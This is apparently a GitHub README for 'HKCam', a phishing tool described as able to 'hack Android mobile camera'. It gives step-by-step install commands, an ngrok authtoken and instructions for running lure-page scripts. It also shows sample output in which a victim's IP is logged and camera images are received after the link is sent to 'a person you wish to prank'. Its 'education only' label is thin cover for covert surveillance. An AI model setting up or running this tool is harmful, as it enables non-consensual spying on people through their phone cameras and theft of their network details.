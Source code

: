 # HKCam

Hello Guys this is an Educational Ethical Hacking Tool - Hack Android Mobile Camera

Follow this steps to install if your a beginner

Open the terminal

Kali linux 2020

$>\sudo apt-get update
$>\sudo apt-get upgrade
$>\sudo apt-get install git

"Git" is the to download a tool/repository/projects and clone it on the root folder

to clone my repository use this following command

$>\git clone https://github.com/EthicalHKRKid/HKCam.git

the above link is also on the right side corner "clone or download"

$>\ls

$>\cd HKCam

if it is download folder

just extract it and paste it on the root folder

and use the cd HKCam

or use this method to unzip

$>\cd Downloads

$>\unzip HKCam.zip

to copy the folder to root directory use this following command on terminal

$>\ cd Downloads> cp HKCam /root/

$>\ cd ..

Download ngrok file

https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip

unzip 

on folder Downloads

$>\ unzip ngrok-stable-linux-amd64.zip

$>\ cd Downloads

$>\ cp ngrok /root/HKCam

./ngrok authtoken 1YZoose2YFvN2KMOg0euq7fbddy_7kPs6RtfZxkEwqNmHRZhd 

$>\ cd ..

$>\root>cd HKCam

$>\root>HKCam> ls

camscript.txt       menaminiki.html     menaminiki.sh
mokkapostu_files    draupathi_files     mokkapostu.html
draupathi.html      mokkapostu.sh       draupathi.sh 
ngrok               post.php            saved.ip.txt       
serveo              index2.html         serveo-linux-amd64
index.php           template.php        ip.php 
menaminiki_files

$>\chmod +x *

$>\ls

select the .sh file as your wish copy the file name using the mouse and follow one the command

$>\bash Whatsapp.sh

or

$>\ ./WhatsApp.sh

   ░S░E░L░F░I░E░H░A░C░K░   
   ░C░A░M░E░R░A░H░A░C░K░   
   ░M░O░B░I░L░E░H░A░C░K░   
   Mennaminiki   
  !This is Stritly For Education Purpose Only!  


[01] Serveo.net
[02] Ngrok

[+] Choose a Port Forwarding option: 2

[+] Starting php server...
[+] Starting ngrok server...                                                
[*] Direct link: https://4xxxx9xio.ngrok.io                                  

[*] Waiting targets, Press Ctrl + C to exit...

Send the link to your friend / person you wish to prank

Serveo.net is not working
"Serveo is temporarily disabled due to phishing"

Ngrok is working well

after the link opened by your friend / the who you like to prank

[+] Target opened the link!
[+] IP: 241.221.789.123

After your friend allow the permissions on his/her android mobile phone

you able to capture the and receive on the HKCam Directory

[+]CamFile Received!

[+]CamFile Received!

[+]CamFile Received!

to close the tool press Ctrl+C

then type Exit



